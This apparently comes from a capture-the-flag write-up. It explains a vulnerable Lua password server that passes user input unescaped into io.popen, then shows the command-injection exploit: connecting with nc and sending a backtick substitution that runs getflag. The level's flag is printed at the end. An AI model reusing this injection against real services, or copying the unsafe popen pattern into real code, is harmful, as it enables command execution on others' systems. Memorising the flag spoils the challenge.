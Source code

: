 # Exploit io.open Vulnerability
We have a lua script, which we will decorticate together.
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

This Lua program is a server that listens on the IP address `127.0.0.1` and port **`5151`**. Here is what it does:

1. It creates a server, which listens on the IP address `127.0.0.1` and port **`5151`**.
2. Once the client is connected, the server waits to receive a password string from the client.
3. The server calculates the SHA-1 hash of the received string using the system command **sha1sum** & returns the output content by applying a **`substr()`**.
4. It compares whether the hash corresponds to `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`,  in both cases it shows us nonsense.

Let’s reverse the hash we use to compare.

![enter image description here](https://i.imgur.com/fmxht0j.png)

If you pay a little attention, you will notice that this line is easily exploitable.
```c
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Injected code to exploit the above line :
```bash
1) nc localhost 5151 # Connect to the server
2) `getflag > /tmp/ToEasy` # Send a substitution command
```

> Flag : `fa6v5ateaw21peobuub8ipe6s`
